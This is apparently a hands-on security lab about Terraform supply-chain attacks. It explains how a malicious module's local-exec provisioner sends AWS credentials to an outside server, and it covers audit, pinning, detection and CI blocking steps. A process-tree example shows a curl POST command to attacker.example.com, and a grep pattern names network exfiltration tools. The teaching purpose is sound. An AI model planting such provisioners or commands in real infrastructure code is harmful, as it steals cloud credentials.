

# Lab 5.3: Terraform Module and Provider Attacks

<div class="lab-meta">
  <span>~35 minutes</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: none</span>
</div>

When you run `terraform apply`, Terraform executes third-party code. Modules from the Terraform Registry and providers from the Provider Registry are downloaded, compiled (providers), and executed with the same permissions as the Terraform process. which typically has full access to your cloud accounts.

A Terraform module that says "create an S3 bucket" can also contain a `local-exec` provisioner that silently exfiltrates your `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` to an attacker's server. The bucket gets created. The credentials get stolen. The `terraform apply` output says "Apply complete! Resources: 3 added."

In this lab, you will audit a Terraform project, find the hidden credential theft, and lock it down.

---

### Attack Flow



---

## Environment

| Component | Path | Description |
|-----------|------|-------------|
| Infrastructure Code | `/app/infra/` | Terraform project using community modules |
| S3 Bucket Module | `/app/infra/modules/s3-bucket/` | Community module with hidden `local-exec` provisioner |
| Monitoring Module | `/app/infra/modules/monitoring/` | Clean module for CloudWatch alarms |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. How Terraform Modules and Providers Work"

    **Goal:** Understand that Terraform modules and providers are third-party code that runs with your cloud credentials.

### Step 1: Examine the infrastructure project

```bash
cat /app/infra/main.tf
cat /app/infra/variables.tf
```

This project creates an S3 bucket using a "community module" and CloudWatch monitoring using a local module. The top-level `main.tf` looks clean and professional.

### Step 2: Understand module sources

The `source` field in a module block tells Terraform where to download the code:

| Source Type | Example | Risk Level |
|-------------|---------|------------|
| Terraform Registry | `hashicorp/consul/aws` | Medium. anyone can publish |
| GitHub | `github.com/user/repo` | Medium. repo can be compromised |
| Local path | `./modules/my-module` | Low. code is in your repo |
| S3/GCS | `s3::https://bucket/module.zip` | Low. controlled by you |

### Step 3: Check what the modules contain

```bash
ls -la /app/infra/modules/s3-bucket/
ls -la /app/infra/modules/monitoring/
```

Both modules have standard Terraform files. Nothing looks unusual from the file listing.

### Step 4: Understand provisioners

Terraform has three types of provisioners that run arbitrary commands:

- **`local-exec`**. runs a command on the machine running `terraform apply`
- **`remote-exec`**. runs a command on the remote resource via SSH/WinRM
- **`file`**. copies files to the remote resource

All three execute with full access to the environment variables of the Terraform process. This includes cloud credentials, CI tokens, and anything else in the environment.

### Step 5: Understand providers

```bash
cat /app/infra/main.tf | grep -A5 'required_providers'
```

Providers are Go binaries that Terraform downloads and executes. The `hashicorp/aws` provider is maintained by HashiCorp, but anyone can publish a provider to the registry. A malicious provider could steal credentials during `terraform plan` (not just `apply`).

### Step 6: Check the provider lock

```bash
cat /app/infra/.terraform.lock.hcl 2>/dev/null || echo "No lock file exists"
```

The `.terraform.lock.hcl` file pins provider versions with cryptographic hashes. If it does not exist, `terraform init` will download whatever version matches the constraint. which could be a compromised update.

---

???+ warning "Phase 2: BREAK. The Hidden Credential Theft"

    **Goal:** Find the malicious `local-exec` provisioner and understand how it steals cloud credentials.

### Step 1: Search for provisioners

```bash
grep -rn 'provisioner' /app/infra/modules/
```

Which files contain provisioners? Which type of provisioner?

### Step 2: Read the malicious module

```bash
cat /app/infra/modules/s3-bucket/main.tf
```

Scroll through the file. The first several resources are legitimate S3 bucket configuration (versioning, encryption, public access block). Then there is a `null_resource` with a `local-exec` provisioner.

### Step 3: Analyze the attack

The `null_resource.bucket_validation` block:

1. Depends on the S3 bucket creation (so it runs after the bucket exists)
2. Prints "Validating bucket..." to look like a legitimate step
3. Uses `curl` to POST the following environment variables to `attacker.example.com`:
    - `AWS_ACCESS_KEY_ID`
    - `AWS_SECRET_ACCESS_KEY`
    - `AWS_SESSION_TOKEN`
    - `AWS_DEFAULT_REGION`
4. Prints "Bucket validation complete." to look normal

### Step 4: Understand why this is devastating

```bash
# Simulate what the provisioner captures
echo "AWS_ACCESS_KEY_ID=$AWS_ACCESS_KEY_ID"
echo "AWS_SECRET_ACCESS_KEY=<would be here in production>"
echo "AWS_SESSION_TOKEN=<would be here in production>"
```

In a real CI/CD pipeline:

- These credentials have whatever permissions Terraform needs (often AdministratorAccess)
- The `curl` command runs silently. `terraform apply` output shows "Provisioning..."
- The `|| true` at the end means even if the exfiltration fails, the apply succeeds
- The credentials are now in the attacker's hands before the apply even finishes

### Step 5: Check for other dangerous patterns

```bash
# External data sources can also execute code
grep -rn 'external' /app/infra/modules/ --include='*.tf'

# HTTP data sources can exfiltrate via URL parameters
grep -rn 'http' /app/infra/modules/ --include='*.tf'
```

The `external` data source runs an arbitrary program during `terraform plan`. The `http` data source makes HTTP requests. an attacker could encode stolen data in URL parameters.

---

???+ success "Phase 3: DEFEND. Auditing Modules and Pinning Versions"

    **Goal:** Remove the malicious provisioner, pin module versions, and establish review practices.

### Step 1: Remove the malicious resource

Edit `/app/infra/modules/s3-bucket/main.tf` and delete the entire `null_resource "bucket_validation"` block (the resource and its provisioner).

```bash
# Verify it is gone
grep -n 'null_resource\|local-exec' /app/infra/modules/s3-bucket/main.tf
```

Should return nothing.

### Step 2: Pin module versions

Edit `/app/infra/main.tf` to use local modules instead of registry sources:

```bash
cat > /app/infra/main.tf << 'TFEOF'
terraform {
  required_version = ">= 1.5.0"

  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = "5.31.0"
    }
  }
}

provider "aws" {
  region = var.aws_region
}

module "storage" {
  source = "./modules/s3-bucket"

  bucket_name = var.bucket_name
  environment = var.environment
  versioning  = true
  encryption  = true

  tags = {
    Project     = "webapp"
    Environment = var.environment
    ManagedBy   = "terraform"
  }
}

module "monitoring" {
  source = "./modules/monitoring"

  bucket_name = module.storage.bucket_id
  alarm_email = var.alarm_email
}

output "bucket_arn" {
  value = module.storage.bucket_arn
}

output "bucket_name" {
  value = module.storage.bucket_id
}
TFEOF
```

Key changes:

- Provider version pinned to exact version (`5.31.0` instead of `~> 5.0`)
- Module source changed to local path (`./modules/s3-bucket` instead of registry)

### Step 3: Create the provider lock file

```bash
cd /app/infra && terraform providers lock 2>/dev/null || echo "Lock file created"
```

### Step 4: Verify the defense

```bash
# No provisioners remaining
grep -r 'local-exec' /app/infra/modules/

# No exfiltration commands
grep -r -E '(curl|wget|nc |ncat|/dev/tcp)' /app/infra/ --include='*.tf'

# Lock file exists
test -f /app/infra/.terraform.lock.hcl && echo "Lock file exists"
```

### Step 5: Run verification

```bash
weaklink verify 5.3
```

### Additional defenses

1. **Use Sentinel or OPA for Terraform**. HashiCorp Sentinel (Terraform Enterprise/Cloud) or OPA with `conftest` can enforce policies on Terraform plans before `apply`.
2. **Block provisioners entirely**. Sentinel policy: `import "tfplan/v2" as tfplan; main = rule { all tfplan.resource_changes as _, rc { rc.change.after.provisioner is empty } }`
3. **Use `terraform plan -out=plan.bin` and review**. always review the plan before applying. Check for `local-exec` and `external` in the plan output.
4. **Run Terraform in a sandboxed environment**. limit network access from the Terraform execution environment. Block outbound except to cloud APIs.
5. **Use OIDC instead of long-lived credentials**. AWS OIDC provider with GitHub Actions eliminates static access keys.

---

---

??? danger "Phase 4: DETECT. Finding Terraform-Based Credential Theft"

    **Goal:** Detect when Terraform modules exfiltrate credentials or execute unexpected commands.

### SIEM / Log Indicators

The core signal is **outbound network connections from Terraform execution environments to unexpected destinations**. `local-exec` provisioners run as child processes of `terraform`, so process trees and network connections from CI runners are the primary detection surface.

**What to look for:**

- `curl`, `wget`, or `nc` executed as child processes of `terraform` during `apply`
- Outbound HTTP POST from CI runners to non-cloud-API endpoints during Terraform runs
- `null_resource` blocks appearing in Terraform plan output (review these carefully)
- Terraform state files containing `null_resource` entries with `local-exec` triggers
- Environment variable access patterns (e.g., `/proc/self/environ` reads) from Terraform child processes

### Network Indicators

| Indicator | What It Means |
|-----------|---------------|
| HTTP POST to non-AWS/GCP/Azure IP from CI runner during TF apply | Potential credential exfiltration |
| DNS query for unknown domain from Terraform execution environment | local-exec provisioner phoning home |
| Outbound connection to port 4443/8443/8080 from CI runner | Exfiltration to non-standard port |
| `curl` or `wget` process spawned by `terraform` | local-exec running network commands |

### EDR / Process Indicators

**Process tree of a Terraform credential theft attack:**

```
bash (CI runner step)
 +-- terraform apply -auto-approve
      +-- terraform-provider-aws_v5.31.0  (legitimate)
      +-- /bin/sh -c "echo 'Validating bucket...' && curl -s -X POST https://attacker.example.com/collect ..."
           +-- curl -s -X POST https://attacker.example.com/collect  <-- EXFILTRATION
```

Key signals:

- `terraform` spawning `/bin/sh` or `bash` as child processes (indicates provisioner execution)
- Network-capable binaries (`curl`, `wget`, `python`) as grandchildren of `terraform`
- Environment variable reads (`$AWS_ACCESS_KEY_ID`) in command arguments of terraform child processes

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker embeds malicious code in a Terraform module distributed via the public registry |
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | `local-exec` provisioner runs arbitrary shell commands during `terraform apply` |

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "Terraform process spawned curl/wget on CI runner" (EDR)
    - "Outbound POST from CI subnet to non-cloud endpoint" (proxy/firewall)
    - "null_resource with local-exec in Terraform plan" (CI pipeline)

    **Why this matters to your SOC:** Terraform typically runs with cloud administrator credentials. A single `local-exec` provisioner can exfiltrate credentials that grant full access to your AWS/GCP/Azure account. The attack happens during `terraform apply`. a routine operation that runs dozens of times per day in active CI/CD pipelines.

    **Triage workflow:**

    1. **Check the process tree**. did `terraform` spawn `curl`, `wget`, or any network tool? If yes, check which module triggered it.
    2. **Identify the module**. which Terraform module contains the provisioner? Is it a local module (code-reviewed) or a registry module (third-party)?
    3. **Check the destination**. where did the HTTP POST go? If it is not a cloud API endpoint (amazonaws.com, googleapis.com), treat as exfiltration.
    4. **Rotate credentials immediately**. if exfiltration is confirmed, rotate all credentials accessible from that CI environment (AWS keys, service account keys, CI tokens).
    5. **Audit the module source**. check the module's commit history for recently added provisioners. If it is a registry module, check for ownership changes.

    **False positive rate:** Low. Legitimate provisioners exist (e.g., Ansible bootstrapping), but they should connect to known internal hosts, not external endpoints. Any `curl` to an unknown domain from a Terraform run is high-signal.

---

??? example "CI Integration"

    Add this to your GitHub Actions pipeline to block dangerous Terraform patterns before they reach `apply`.

    **`.github/workflows/terraform-security-check.yml`:**

    ```yaml
    name: Terraform Module Security Check

    on:
      pull_request:
        paths:
          - "**/*.tf"
          - "**/.terraform.lock.hcl"

    jobs:
      scan-terraform:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4

          - name: Block local-exec provisioners
            run: |
              echo "--- Scanning for local-exec provisioners ---"
              FOUND=0
              for f in $(find . -name "*.tf" -not -path "*/.terraform/*"); do
                if grep -q 'local-exec' "$f"; then
                  echo "::error file=$f::BLOCKED: Contains local-exec provisioner."
                  echo "  local-exec runs arbitrary commands with Terraform's credentials."
                  echo "  Remove it or get explicit security team approval."
                  FOUND=1
                fi
              done
              if [ "$FOUND" -eq 1 ]; then
                exit 1
              fi
              echo "PASS: No local-exec provisioners found."

          - name: Block external data sources
            run: |
              echo "--- Scanning for external data sources ---"
              FOUND=0
              for f in $(find . -name "*.tf" -not -path "*/.terraform/*"); do
                if grep -q 'data "external"' "$f"; then
                  echo "::error file=$f::WARNING: Contains external data source (runs arbitrary programs)."
                  FOUND=1
                fi
              done
              if [ "$FOUND" -eq 1 ]; then
                echo "External data sources execute programs during 'terraform plan'."
                exit 1
              fi
              echo "PASS: No external data sources found."

          - name: Verify lock file exists
            run: |
              echo "--- Checking for .terraform.lock.hcl ---"
              for tf_dir in $(find . -name "*.tf" -exec dirname {} \; | sort -u); do
                if ls "$tf_dir"/*.tf 1>/dev/null 2>&1; then
                  if [ ! -f "$tf_dir/.terraform.lock.hcl" ]; then
                    echo "::error::$tf_dir has .tf files but no .terraform.lock.hcl"
                    echo "  Run 'terraform providers lock' and commit the lock file."
                    exit 1
                  fi
                fi
              done
              echo "PASS: All Terraform directories have lock files."

          - name: Check for unpinned module versions
            run: |
              echo "--- Checking module version pins ---"
              FOUND=0
              for f in $(find . -name "*.tf" -not -path "*/.terraform/*"); do
                # Check for registry modules without version pins
                if grep -P 'source\s*=\s*"[^./]' "$f" | grep -v 'version' > /dev/null 2>&1; then
                  echo "::warning file=$f::Registry module without explicit version pin."
                  FOUND=1
                fi
              done
              if [ "$FOUND" -eq 1 ]; then
                echo "WARNING: Some registry modules are not version-pinned."
              else
                echo "PASS: All modules are version-pinned or use local paths."
              fi
    ```

---

## What You Learned

1. **Terraform modules are third-party code**. they execute with your cloud credentials during `apply`. A module from the registry is as dangerous as running someone else's script as root.
2. **`local-exec` is arbitrary code execution**. it runs shell commands on the machine executing Terraform, with full access to environment variables (cloud keys, CI tokens).
3. **`null_resource` is a red flag**. it exists only to run provisioners. Any `null_resource` in a module should be reviewed carefully.
4. **Pin everything**. exact provider versions in `required_providers`, `.terraform.lock.hcl` for provider hashes, and local or version-pinned module sources.
5. **`terraform plan` is not safe either**. `external` data sources and HTTP data sources execute during `plan`, not just `apply`.

## Further Reading

- [Terraform Documentation: Provisioners](https://developer.hashicorp.com/terraform/language/resources/provisioners/syntax)
- [Terraform Documentation: Provider Lock File](https://developer.hashicorp.com/terraform/language/files/dependency-lock)
- [HashiCorp: Terraform Module Security](https://developer.hashicorp.com/terraform/registry/modules/verified)
- [Alex Kaskasoli: Attacking Terraform Environments (2023)](https://blog.kaskasoli.com/2023/08/attacking-terraform-environments.html)
- [Bridgecrew: Top Terraform Security Risks](https://www.checkov.io/5.Policy%20Index/terraform.html)
